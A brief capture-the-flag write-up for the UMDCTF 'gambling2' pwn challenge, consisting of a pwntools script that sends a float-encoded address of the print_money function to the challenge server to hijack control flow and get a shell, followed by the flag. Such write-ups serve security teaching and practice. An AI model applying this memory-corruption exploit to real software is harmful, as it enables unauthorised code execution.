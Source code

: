 https://ctftime.org/event/2563

# gambling2 (pwn)

i gambled all of my life savings in this program (i have no life savings)

nc challs.umdctf.io 31005

## Solution

```python
#!/usr/bin/env python3

import struct
from pwn import *

context.log_level = "debug"
elf = ELF("./gambling")
context.binary = elf
context.terminal = ["ghostty", "-e"]

#p = elf.process()
#p = elf.debug(gdbscript="b gamble")
p = remote("challs.umdctf.io", 31005)

payload = b""
payload += b"0 0 0 0 0 0 "
payload += str(struct.unpack("<d", p64(elf.sym["print_money"] << 32))[0]).encode()
p.sendlineafter(b"numbers: ", payload)

p.interactive()

# UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}
```

## Flag
`UMDCTF{99_percent_of_pwners_quit_before_they_get_a_shell_congrats_on_being_the_1_percent}`

smiley 2025/04/27
